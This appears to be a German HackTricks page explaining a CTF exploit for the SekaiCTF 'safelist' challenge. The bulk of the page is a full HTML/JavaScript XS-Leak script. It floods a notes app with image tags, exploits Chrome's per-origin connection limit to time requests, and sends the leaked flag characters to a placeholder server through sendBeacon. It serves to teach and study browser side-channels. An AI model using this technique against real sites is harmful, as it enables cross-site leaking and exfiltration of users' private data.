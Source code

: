 # Connection Pool by Destination Example

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}

In [**diesem Exploit**](https://gist.github.com/terjanq/0bc49a8ef52b0e896fca1ceb6ca6b00e#file-safelist-html), [**@terjanq**](https://twitter.com/terjanq) schlägt eine weitere Lösung für die Herausforderung vor, die auf der folgenden Seite erwähnt wird:

{% content-ref url="connection-pool-by-destination-example.md" %}
[connection-pool-by-destination-example.md](connection-pool-by-destination-example.md)
{% endcontent-ref %}

Lass uns sehen, wie dieser Exploit funktioniert:

* Der Angreifer wird eine Notiz mit so vielen **`<img`**-Tags **laden**, die **`/js/purify.js`** so oft wie möglich (mehr als 6, um den Ursprung zu blockieren).
* Dann wird der Angreifer die **Notiz** mit dem Index 1 **entfernen**.
* Dann wird der Angreifer \[den **Bot die Seite aufrufen lassen** mit der verbleibenden Notiz] und wird eine **Anfrage** an **`victim.com/js/purify.js`** senden, die er **zeitlich** erfassen wird.&#x20;
* Wenn die Zeit **größer** ist, war die **Injektion** in der **übrig gebliebenen Notiz**, wenn die Zeit **geringer** ist, war die **Flag** dort.

{% hint style="info" %}
Um ehrlich zu sein, beim Lesen des Skripts habe ich einen Teil vermisst, wo der **Angreifer den Bot die Seite laden lässt, um die img-Tags auszulösen**, ich sehe nichts dergleichen im Code.
{% endhint %}
```html
<html>
<head>
<script>
const SITE_URL = 'https://safelist.ctf.sekai.team/';
const PING_URL = 'https://myserver';
function timeScript(){
return new Promise(resolve => {
var x = document.createElement('script');
x.src = 'https://safelist.ctf.sekai.team/js/purify.js?' + Math.random();
var start = Date.now();
x.onerror = () => {
console.log(`Time: ${Date.now() - start}`); //Time request
resolve(Date.now() - start);
x.remove();
}
document.body.appendChild(x);
});
}

add_note = async (note) => {
let x = document.createElement('form')
x.action = SITE_URL + "create"
x.method = "POST"
x.target = "xxx"

let i = document.createElement("input");
i.type = "text"
i.name = "text"
i.value = note
x.appendChild(i)
document.body.appendChild(x)
x.submit()
}

remove_note = async (note_id) => {
let x = document.createElement('form')
x.action = SITE_URL+"remove"
x.method = "POST"
x.target = "_blank"

let i = document.createElement("input");
i.type = "text"
i.name = "index"
i.value = note_id
x.appendChild(i)
document.body.appendChild(x)
x.submit()
}

const sleep = ms => new Promise(resolve => setTimeout(resolve, ms));
// }zyxwvutsrqponmlkjihgfedcba_
const alphabet = 'zyxwvutsrqponmlkjihgfedcba_'
var prefix = 'SEKAI{xsleakyay';
const TIMEOUT = 500;
async function checkLetter(letter){
// Chrome puts a limit of 6 concurrent request to the same origin. We are creating a lot of images pointing to purify.js
// Depending whether we found flag's letter it will either load the images or not.
// With timing, we can detect whether Chrome is processing purify.js or not from our site and hence leak the flag char by char.
const payload = `${prefix}${letter}` + Array.from(Array(78)).map((e,i)=>`<img/src=/js/purify.js?${i}>`).join('');
await add_note(payload);
await sleep(TIMEOUT);
await timeScript();
await remove_note(1); //Now, only the note with the flag or with the injection existsh
await sleep(TIMEOUT);
const time = await timeScript(); //Find out how much a request to the same origin takes
navigator.sendBeacon(PING_URL, [letter,time]);
if(time>100){
return 1;
}
return 0;
}
window.onload = async () => {
navigator.sendBeacon(PING_URL, 'start');
// doesnt work because we are removing flag after success.
// while(1){
for(const letter of alphabet){
if(await checkLetter(letter)){
prefix += letter;
navigator.sendBeacon(PING_URL, prefix);
break;
}
}
// }
};
</script>
</head>
<body>
</body>
</html>

```
{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstütze HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}

